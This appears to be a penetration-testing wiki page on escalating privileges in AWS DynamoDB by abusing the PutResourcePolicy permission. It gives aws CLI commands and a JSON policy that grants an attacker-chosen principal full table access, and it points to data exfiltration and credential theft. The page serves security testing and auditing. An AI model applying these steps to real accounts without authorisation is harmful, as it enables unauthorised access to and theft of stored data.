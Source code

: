 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

For more info about dynamodb check:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, and optionally `dynamodb:GetResourcePolicy`

Since March 2024, AWS offers *resource based policies* for DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

So, if you have the `dynamodb:PutResourcePolicy` for a table, you can just grant yourself or any other principal full access to the table.

Granting the `dynamodb:PutResourcePolicy` to a random principal often happens by accident, if the admins think that granting `dynamodb:Put*` would only allow the principal to put items into the database - or if they granted that permissionset before March 2024...

Ideally, you also have `dynamodb:GetResourcePolicy`, so you do not overwrite other potentially vital permissions, but only inject the added permissions you need:

```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
	--resource-arn <table_arn> \
	--query 'Policy' \
	--output text > policy.json
```

If you cannot retrieve the current policy, just use this one that grants full access over the table to your principal:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "FullAccessToDynamoDBTable",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
            },
            "Action": [
                "dynamodb:*"
            ],
            "Resource": [
                "arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
            ]
        }
    ]
}
```

If you need to customize it, here is a list of all possible DynamoDB actions: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). And here is a list of all actions that can be allowed via a resource based policy *AND which of these can be used cross-account (think data exfiltration!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Now, with the policy document `policy.json` ready, put the resource policy:

```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
	--resource-arn <table_arn> \
	--policy "$(cat policy.json)"
```

Now, you should have the permissions you needed.

### Post Exploitation

As far as I know there is **no other direct way to escalate privileges in AWS just by having some AWS `dynamodb` permissions**. You can **read sensitive** information from the tables (which could contain AWS credentials) and **write information on the tables** (which could trigger other vulnerabilities, like lambda code injections...) but all these options are already considered in the **DynamoDB Post Exploitation page**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Read data abusing data Streams

{{#include ../../../banners/hacktricks-training.md}}



